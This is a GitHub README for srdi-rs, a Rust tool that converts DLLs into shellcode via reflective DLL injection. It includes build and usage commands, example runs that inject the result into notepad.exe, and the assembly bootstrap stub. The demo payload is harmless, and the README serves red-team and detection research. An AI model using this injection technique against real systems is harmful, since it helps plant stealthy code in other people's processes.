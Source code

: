 # Shellcode Reflective DLL Injection (sRDI)

The reflective loader is under 4KB in size.

## Description

Shellcode reflective DLL injection (sRDI) is a process injection technique that allows us to convert a given DLL into a position-independent code which can then be injected using our favourite shellcode injection and execution technique.

## Usage

0). [Install Rust](https://www.rust-lang.org/tools/install)

1). Build all of the projects

```
cargo build --release
```

2). Generate the shellcode.

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\generate_shellcode.exe -h
Shellcode Reflective DLL Injection (sRDI)

Usage: generate_shellcode.exe [OPTIONS] --loader <LOADER> --payload <PAYLOAD> --function <FUNCTION> --parameter <PARAMETER> --output <OUTPUT>

Options:
      --loader <LOADER>        The reflective loader DLL path (loader.dll)
      --payload <PAYLOAD>      The payload DLL path (payload.dll)
      --function <FUNCTION>    The function to execute inside payload.dll (SayHello)
      --parameter <PARAMETER>  The parameter to pass to the function inside payload.dll (https://localhost:1337/)
      --output <OUTPUT>        The output file path (shellcode.bin)
      --flags <FLAGS>          The 0x0 flag will execute DllMain and any other flag will execute the function inside payload.dll (SayHello) [default: 1]
  -h, --help                   Print help
  -V, --version                Print version
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```

3). Bring your own injector (BYOI) and inject the position-independent code with your favourite injection and execution technique or use the one in the repository.

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\inject.exe -h
Simple Injector for PoC

Usage: inject.exe --process <PROCESS> --file <FILE>

Options:
      --process <PROCESS>  The target process name (notepad.exe)
      --file <FILE>        The PIC file path (shellcode.bin)
  -h, --help               Print help
  -V, --version            Print version
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```

## Example

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs> cargo build --release
    Finished release [optimized] target(s) in 0.04s
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs>
```

### DLLMain

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\generate_shellcode.exe --loader .\reflective_loader.dll --payload .\payload.dll --function SayHello --parameter https://127.0.0.1:1337/ --flags 0 --output shellcode.bin

Loader Path: .\reflective_loader.dll
Payload Path: .\payload.dll
Output Path: shellcode.bin
[+] Reflective Loader Offset: 0x400
[!] Bootstrap Shellcode Length: 79 (Ensure this matches BOOTSTRAP_TOTAL_LENGTH in the code)
[+] Reflective Loader Length: 3584
[+] Payload DLL Length: 113664
[+] Total Shellcode Length: 117350
[*] loader(payload_dll: *mut c_void, function_hash: u32, user_data: *mut c_void, user_data_len: u32, _shellcode_bin: *mut c_void, _flags: u32)
[*] arg1: rcx, arg2: rdx, arg3: r8, arg4: r9, arg5: [rsp + 0x20], arg6: [rsp + 0x28]
[*] rcx: 0xe4a rdx: 0x756de3c6 r8: https://127.0.0.1:1337/, r9: 0x17, arg5: ???, arg6: 0
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\inject.exe --process notepad.exe --file .\shellcode.bin

[+] Process ID: 9944
[+] Process handle: 184
[+] Allocated memory in the target process for the shellcode: 0x19e49950000
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```

![./ExampleDllMain.png](./ExampleDllMain.png)


### SayHello

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\generate_shellcode.exe --loader .\reflective_loader.dll --payload .\payload.dll --function SayHello --parameter https://127.0.0.1:1337/ --flags 1 --output shellcode.bin

Loader Path: .\reflective_loader.dll
Payload Path: .\payload.dll
Output Path: shellcode.bin
[+] Reflective Loader Offset: 0x400
[!] Bootstrap Shellcode Length: 79 (Ensure this matches BOOTSTRAP_TOTAL_LENGTH in the code)
[+] Reflective Loader Length: 3584
[+] Payload DLL Length: 113664
[+] Total Shellcode Length: 117350
[*] loader(payload_dll: *mut c_void, function_hash: u32, user_data: *mut c_void, user_data_len: u32, _shellcode_bin: *mut c_void, _flags: u32)
[*] arg1: rcx, arg2: rdx, arg3: r8, arg4: r9, arg5: [rsp + 0x20], arg6: [rsp + 0x28]
[*] rcx: 0xe4a rdx: 0x756de3c6 r8: https://127.0.0.1:1337/, r9: 0x17, arg5: shellcode.bin addy, arg6: 1
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\inject.exe --process notepad.exe --file .\shellcode.bin
[+] Process ID: 9944
[+] Process handle: 184
[+] Allocated memory in the target process for the shellcode: 0x19e499c0000
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```

![./ExampleSayHello.png](./ExampleSayHello.png)

## Description

The bootstrap shellcode:

```asm
call 0x00
pop rcx
mov r8, rcx

push rsi
mov rsi, rsp
and rsp, 0x0FFFFFFFFFFFFFFF0
sub rsp, 0x30

mov qword ptr [rsp + 0x20], rcx
sub qword ptr [rsp + 0x20], 0x5
mov dword ptr [rsp + 0x28], <flags>

mov r9, <parameter_length>
add r8, <parameter_offset> + <payload_length>
mov edx, <parameter_hash>
add rcx, <payload_offset>

call <loader_offset>

nop
nop

mov rsp, rsi
pop rsi
ret

nop
nop
```

The shellcode.bin file layout in memory:

[![sRDI](./sRDI.png)](https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/)

**Credits: [Nick Landers @(monoxgas)](https://github.com/monoxgas)**

## References and Credits

* https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/
* https://github.com/monoxgas/sRDI
* https://github.com/stephenfewer/ReflectiveDLLInjection/
* https://discord.com/invite/rust-lang-community (Rust Community #windows-dev channel)
* https://github.com/dismantl/ImprovedReflectiveDLLInjection
* https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html
* https://bruteratel.com/research/feature-update/2021/06/01/PE-Reflection-Long-Live-The-King/
* https://github.com/Cracked5pider/KaynLdr
* https://github.com/Ben-Lichtman/reloader/
* https://github.com/not-matthias/mmap/
* https://github.com/memN0ps/mmapper-rs
* https://github.com/2vg/blackcat-rs/tree/master/crate/mini-sRDI
* https://github.com/Jaxii/idk-rs/
* https://github.com/janoglezcampos/rust_syscalls/